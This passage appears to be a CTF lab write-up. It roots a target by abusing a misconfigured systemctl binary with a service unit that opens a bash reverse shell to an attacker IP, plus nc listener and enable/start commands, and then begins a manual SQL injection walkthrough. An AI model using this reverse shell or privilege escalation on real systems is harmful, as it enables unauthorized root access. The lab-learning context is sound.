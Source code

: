 ![](https://miro.medium.com/max/838/1*pD6dkx0nxEvx9A0YYGO_5A.png)

There’s a good blog written by [Samual Whang](https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49) explaining how to set up a service and use the misconfigured _systemctl_ binary to send a privileged reverse shell back to our attack machine.

First, create a _root.service_ file with the following content.

```text
[Unit]
Description=get root privilege[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.12/9999 0>&1'[Install]
WantedBy=multi-user.target
```

Transfer it to the target machine. Then run the following command.

```text
/bin/systemctl enable /home/pepper/root.service
```

This command will hook the specified unit to the correct place so that _root.service_ is started automatically on boot.

Next, set up a listener on your attack machine to receive the reverse shell.

```text
nc -nlvp 9999
```

In the target machine, start the root service.

```text
/bin/systemctl start root
```

We get a shell! Grab the root.txt flag.

![](https://miro.medium.com/max/900/1*cN3cOzN257US5QkNJMhokA.png)

## Extra Content \(Manual Exploitation\) <a id="24e2"></a>

Since SQLMap is not allowed on the OSCP, let’s try to get initial access without having to use it.

We suspect that the application is vulnerable to SQL injection because of the way it responded to the _sleep\(\)_ command. In order to verify our suspicion, we need to first deduce the structure of the SQL query that is running in the backend and then exploit it.

**Step 1 — Column Enumeration**

The first thing in figuring out the structure of a SQL query is determining how many columns the query is using. This can be done using the SQL ORDER BY keyword.

The following is a sample SQL statement.

```text
Select * FROM table
ORDER BY column-name
```
